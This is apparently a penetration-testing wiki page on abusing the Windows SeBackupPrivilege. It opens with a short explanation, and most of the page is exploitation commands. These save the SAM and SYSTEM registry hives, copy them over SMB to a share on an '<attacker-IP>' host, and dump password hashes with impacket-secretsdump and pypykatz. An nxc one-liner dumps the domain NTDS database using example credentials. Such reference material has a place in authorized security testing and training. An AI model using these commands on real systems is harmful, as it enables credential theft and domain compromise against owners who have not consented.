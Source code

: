 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeBackupPrivilege

A Windows privilege that allows **bypassing standard ACL checks** to read files and registry hives during backup operations. Assigned by default to `Administrators`, [`Backup Operators`](../groups/backup-operators.md), and `Server Operators` but **disabled in user tokens by default**.&#x20;

Backup-aware tools (e.g., `reg.exe`, `robocopy`, `ntbackup`) explicitly enable this privilege at runtime to access protected objects regardless of ACLs.

## Exploitation

{% hint style="info" %}
For **AD exploitation** check [Backup Operators](../groups/backup-operators.md#exploitation), [Server Operators](../groups/server-operators.md#exploitation).
{% endhint %}

{% tabs %}
{% tab title="Dump" %}
Move to a [writeable directory](../../infra/os/windows.md#writable-directories) and copy the hives:

```powershell
# Move to a writeable directory
cd c:\windows\temp

# Copy the SAM and SYSTEM hives
reg save hklm\sam c:\windows\temp\sam
reg save hklm\system c:\windows\temp\system
```

Transfer the hives to the attacking host (preferrable via SMB and not WinRM):

```bash
# Start an SMB server
sudo impacket-smbserver share -smb2support / -user test -password test
```

Connect and copy the hives:

```powershell
# Connect to the share
net use z: \\<attacker-IP>\share /user:test test

# Copy the hives
copy sam z:\
copy system z:\
```

Dump the creds on the attacking host:

```bash
# Dump creds with impacket
impacket-secretsdump -sam sam -system system LOCAL

# Dump creds with pypykatz
pypykatz registry --sam sam system
```
{% endtab %}

{% tab title="nxc" %}
If the credentials of the `Backup Operators`'s member are available:

```bash
nxc smb 192.168.210.16 -u administrator -p Password123! --ntds vss
```
{% endtab %}
{% endtabs %}
